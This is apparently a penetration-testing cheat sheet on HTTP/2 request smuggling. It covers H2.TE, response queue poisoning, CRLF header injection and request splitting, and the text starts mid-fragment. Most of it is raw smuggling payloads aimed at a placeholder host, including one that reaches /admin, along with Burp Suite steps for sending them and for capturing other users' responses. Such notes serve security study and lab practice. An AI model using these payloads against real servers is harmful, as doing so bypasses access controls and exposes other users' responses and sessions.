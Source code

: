 ```http
Content-Length: 10

x=1
```
## H2.TE
```http
POST /example HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
## Hidden HTTP/2 support
- To force Burp Repeater to use HTTP/2 so that you can test for this misconfiguration manually:
    1. From the Settings dialog, go to Tools > Repeater.
    2. Under Connections, enable the Allow HTTP/2 ALPN override option.
    3. In Repeater, go to the Inspector panel and expand the Request attributes section.
    4. Use the switch to set the Protocol to HTTP/2. Burp will now send all requests on this tab using HTTP/2, regardless of whether the server advertises support for this.
## H2.TE
- Use the Burp Inspector to add a `Transfer-Encoding: chunked` header
## Response Queue Poisoning
- Insert a whole request to poison the queue response and get other users' responses
- Remove the `Content-Type:` header and replace it with Transfer-Encoding
    - The backend server will use the TE after the HTTP/2 downgrade
- Use Burp intruder to speed up exploitation
    - Change the setting to avoid updating the content-length header
    - Use a custom resource pool
```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```
## Request smuggling via CRLF injection
- Insert the `Transfer-Encoding: chunked` header via a CRLF injection using Burp's Inspector. This will create a Kettled request
- Find a Request that reflects user input
```http
Foo: bar\nTransfer-Encoding: chunked
```
## HTTP/2 request splitting
- Similar to the Request smuggling via CRLF injection but instead of injecting a header, inject a new request
```http
Foo: bar\r\n
\r\n
```